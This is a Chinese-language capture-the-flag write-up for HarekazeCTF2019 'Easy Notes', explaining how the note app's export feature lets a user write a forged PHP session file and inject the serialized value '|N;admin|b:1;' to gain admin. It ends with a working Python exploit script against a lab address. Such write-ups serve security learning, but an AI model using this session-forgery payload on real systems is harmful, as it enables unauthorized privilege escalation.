 # \[HarekazeCTF2019]Easy Notes

## \[HarekazeCTF2019]Easy Notes

## 考点

* PHP session反序列化
* PHP代码审计
* PHP session 伪造

## wp

给了源码，打开靶机，是一个笔记系统

![](../../.gitbook/assets/Harekaze2019\_notes\_1.png)

在登陆处进行了匹配，只允许输入 4 到 64 位规定字符，且不是前端验证

![](../../.gitbook/assets/Harekaze2019\_notes\_2.png)

登陆成功后，可以进行增删查和导出为 zip 或 tar 的功能，点击 `Get flag` 提示不是 admin

既然拿到源码就先看看全局配置 `config.php` ，就写了一行，定义临时文件目录



![](<../../.gitbook/assets/image (11).png>)

还要看一下初始化文件`init.php`，定义`session`存储位置

![](<../../.gitbook/assets/image (22) (1).png>)

进入 `page/flag.php` 看一下给出 flag 的条件，要满足 `is_admin()` 函数

![](../../.gitbook/assets/Harekaze2019\_notes\_3.png)

跟进 `is_admin()` 函数，没有发现什么可以利用的地方

![](../../.gitbook/assets/Harekaze2019\_notes\_4.png)

看到有个导出功能，它会将添加的 note 导出为 zip，这个文件存放的位置在 `TEMP_DIR` ，和 `session` 信息保存在同一个位置，那么是不是可以考虑伪造 session

![](<../../.gitbook/assets/image (5) (1).png>)

session 文件以 `sess_` 开头，且只含有 `a-z`，`A-Z`，`0-9`，`-`

看到 `$filename` 处可以满足所有的条件

![](../../.gitbook/assets/Harekaze2019\_notes\_5.png)

构造 `user` 为 `sess_` ，`type` 为 `.` ，经过处理之后，`$path` 就是 `TEMP_DIR/sess_0123456789abcdef` 这就伪造了一个 session 文件

然后向这个文件写入 note 的 `title`

![](../../.gitbook/assets/Harekaze2019\_notes\_6.png)

在最后，它会将构造的 `$filename` 返回，这样就知道了伪造的 session 文件，就可以拿到构造出的 admin 的 session 数据

![](../../.gitbook/assets/Harekaze2019\_notes\_7.png)

最后构造 `session` 触发反序列化使 `is_admin` 返回 `ture` 。

可以看到在导出时，会将 `titl`e 写入伪造的 `session` 文件中

那么就可以在 `title` 处构造序列化字符串，而 php 默认的 `session handler`是 `php`，其存储方式为 `键名+竖线+经过serialize函数序列处理的值`&#x20;

这里 `title` 就构造为 `|N;admin|b:1;` 这样就会满足了 `is_admin`的条件

梳理一下思路

第一步，以 sess\_ 登陆

第二步，添加标题为 `|N;admin|b:1; 的 note`

第三步，访问 export.php?type=. 伪造 session

第四步，获取伪造的 session 进行 get flag

exp

```python
import re
import requests
URL = 'http://192.168.233.136:9000/'

while True:
	# login as sess_
	sess = requests.Session()
	sess.post(URL + 'login.php', data={
		'user': 'sess_'
	})

	# make a crafted note
	sess.post(URL + 'add.php', data={
		'title': '|N;admin|b:1;',
		'body': 'hello'
	})

	# make a fake session
	r = sess.get(URL + 'export.php?type=.').headers['Content-Disposition']
	print(r)
	
	sessid = re.findall(r'sess_([0-9a-z-]+)', r)[0]
	print(sessid)
	
	# get the flag
	r = requests.get(URL + '?page=flag', cookies={
		'PHPSESSID': sessid
	}).content.decode('utf-8')
	flag = re.findall(r'flag\{.+\}', r)

	if len(flag) > 0:
		print(flag[0])
		break
```

## 小结

1. &#x20;php 默认的 `session handler`是 `php`，其存储方式为 `键名+竖线+经过serialize函数序列处理的值`&#x20;
2. session 文件以 `sess_` 开头，且只含有 `a-z`，`A-Z`，`0-9`，`-`
